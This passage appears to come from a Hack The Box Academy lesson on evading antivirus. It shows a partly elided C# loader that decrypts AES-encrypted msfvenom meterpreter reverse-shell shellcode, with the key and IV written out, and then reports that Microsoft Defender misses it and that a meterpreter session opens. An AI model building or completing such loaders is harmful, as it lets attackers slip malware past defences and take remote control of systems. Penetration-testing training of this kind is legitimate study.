 ```csharp
<SNIP>
using System.Security.Cryptography;

namespace NotMalware
{
    internal class Program
    {
        <SNIP>

        static void Main(string[] args)
        {
            // Shellcode (msfvenom -p windows/x64/meterpreter/reverse_http LHOST=... LPORT=... -f csharp)
            string bufEnc = "<SNIP>";

            // Decrypt shellcode
            Aes aes = Aes.Create();
            byte[] key = new byte[16] { 0x1f, 0x76, 0x8b, 0xd5, 0x7c, 0xbf, 0x02, 0x1b, 0x25, 0x1d, 0xeb, 0x07, 0x91, 0xd8, 0xc1, 0x97 };
            byte[] iv = new byte[16] { 0xee, 0x7d, 0x63, 0x93, 0x6a, 0xc1, 0xf2, 0x86, 0xd8, 0xe4, 0xc5, 0xca, 0x82, 0xdf, 0xa5, 0xe2 };
            ICryptoTransform decryptor = aes.CreateDecryptor(key, iv);
            byte[] buf;
            using (var msDecrypt = new System.IO.MemoryStream(Convert.FromBase64String(bufEnc)))
            {
                using (var csDecrypt = new CryptoStream(msDecrypt, decryptor, CryptoStreamMode.Read))
                {
                    using (var msPlain = new System.IO.MemoryStream())
                    {
                        csDecrypt.CopyTo(msPlain);
                        buf = msPlain.ToArray();
                    }
                }
            }

            // Allocate RW space for shellcode
            <SNIP>

```

This time, running `ThreatCheck` against the compiled malware results in a `"No threat found!"` message.

![image](https://academy.hackthebox.com/storage/modules/254/2/40.png)

We can confirm that `Microsoft Defender Antivirus` does not detect the program as malicious by re-enabling `Real-time protection`, copying the file to the `Desktop` and noticing it doesn't get immediatly removed. We can even go a step further and attempt to run it, establishing a `meterpreter session`:

![image](https://academy.hackthebox.com/storage/modules/254/2/41.png)
